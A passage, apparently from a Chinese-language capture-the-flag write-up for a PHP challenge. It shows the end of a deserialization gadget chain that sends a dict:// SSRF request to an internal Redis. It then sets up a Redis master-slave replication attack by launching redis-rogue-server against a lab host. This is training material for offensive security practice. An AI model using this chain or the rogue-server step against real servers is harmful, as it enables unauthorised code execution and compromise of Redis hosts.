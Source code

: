 ```php
    curl_close($ch);
    var_dump($output);
}


$a = new Ha();
$a -> start2 = "o.0";
$a -> start1 = new Rd();
$a -> start = ["POC" => "0.o"];
$a -> start1 -> cl = new Er();
$a -> start1 -> cl -> Flag = base64_encode("dict://127.0.0.1/info");
};
```

发现可以获取到`redis`信息

![ezezez_php-1](./img/ezezez_php-1.png)

这里使用`redis主从复制`进行攻击，因为机器不出网，所以重新开一台靶机,使用[redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

[参考手动操作命令](https://www.cnblogs.com/xiaozi/p/13089906.html)

靶机上先获取`ip`，我的靶机`ip`为`172.2.0.76`

使用命令运行`redis-rogue-server`

```bash
python3 redis-rogue-server.py --server-only
```
